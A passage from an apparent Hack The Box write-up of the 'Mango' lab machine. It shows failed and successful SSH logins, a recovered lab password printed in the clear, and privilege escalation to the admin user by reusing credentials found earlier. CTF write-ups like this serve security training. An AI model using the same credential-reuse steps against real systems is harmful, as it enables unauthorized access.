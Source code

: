 ```
┌──(HTB)─(kali㉿kali)-[~/Desktop]
└─$ ssh admin@10.10.10.162
admin@10.10.10.162's password: 
Permission denied, please try again.
admin@10.10.10.162's password: 
Permission denied, please try again.
admin@10.10.10.162's password: 
admin@10.10.10.162: Permission denied (publickey,password).
```

Next, we will try to use mango:h3mXK8RhU~f{]f5H to gain SSH access. Fortunately, we are able to gain SSH access this time round.

```
┌──(HTB)─(kali㉿kali)-[~/Desktop]
└─$ ssh mango@10.10.10.162
mango@10.10.10.162's password: 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-64-generic x86_64)
Last login: Mon Sep 30 02:58:45 2019 from 192.168.142.138
mango@mango:~$ 
```

### Privilege Escalation to admin user
After gaining SSH access, we realize that the user flag is found in the /home/admin directory which we not have sufficient privileges to view. Hence, we will need to escalate ourselves to the user, admin.

```
mango@mango:/home$ cat mango/user.txt
cat: mango/user.txt: No such file or directory
mango@mango:/home$ cat admin/user.txt
cat: admin/user.txt: Permission denied
mango@mango:/home$ 
```

First, let use try to run sudo -l to find out what are the privileges that mango has on this server. Unfortunately, mango is unable to execute sudo commands on this server.

```
mango@mango:/home$ sudo -l
[sudo] password for mango: 
Sorry, user mango may not run sudo on mango.
```

Recalling that we have obtained the credentials of admin earlier, let us try to escalate our privileges with the credentials

```
mango@mango:/home$ su admin
Password: 
$ id
uid=4000000000(admin) gid=1001(admin) groups=1001(admin)
$ bash
admin@mango:/home$ 
```
### Obtaining user flag
```
admin@mango:/home$ cat /home/admin/user.txt
<Redacted user flag>
```
